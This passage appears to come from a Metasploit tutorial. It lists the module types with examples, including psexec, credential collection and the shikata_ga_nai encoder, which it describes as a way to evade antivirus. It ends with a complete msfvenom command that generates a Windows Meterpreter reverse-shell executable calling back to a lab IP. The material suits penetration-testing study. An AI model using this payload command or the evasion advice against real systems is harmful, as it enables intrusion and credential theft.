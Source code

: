 **Return to Meterpreter:**
```bash
C:\WINDOWS\system32> exit
meterpreter > 
```

## Metasploit Module Types

### 1. Exploit Modules

**Purpose**: Exploit specific vulnerabilities
**Example**: `exploit/windows/smb/psexec`
**Usage**: Gain initial access to systems

### 2. Auxiliary Modules

**Purpose**: Scanning, enumeration, and verification
**Example**: `auxiliary/scanner/smb/smb_version`
**Usage**: Information gathering and reconnaissance

### 3. Post Modules

**Purpose**: Post-exploitation activities
**Example**: `post/windows/gather/credentials/credential_collector`
**Usage**: After gaining access, collect information

### 4. Payload Modules

**Purpose**: Code executed on target after exploitation
**Example**: `windows/meterpreter/reverse_tcp`
**Usage**: Establish communication channel

### 5. Encoder Modules

**Purpose**: Encode payloads to avoid detection
**Example**: `x86/shikata_ga_nai`
**Usage**: Bypass antivirus and filters

### 6. NOP Modules

**Purpose**: No-operation instructions for buffer alignment
**Example**: `x86/opty2`
**Usage**: Ensure payload stability

## MSFVenom - Standalone Payload Generator

### Basic Usage

**Generate Windows Reverse Shell:**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.222 LPORT=4444 -f exe -o shell.exe
```
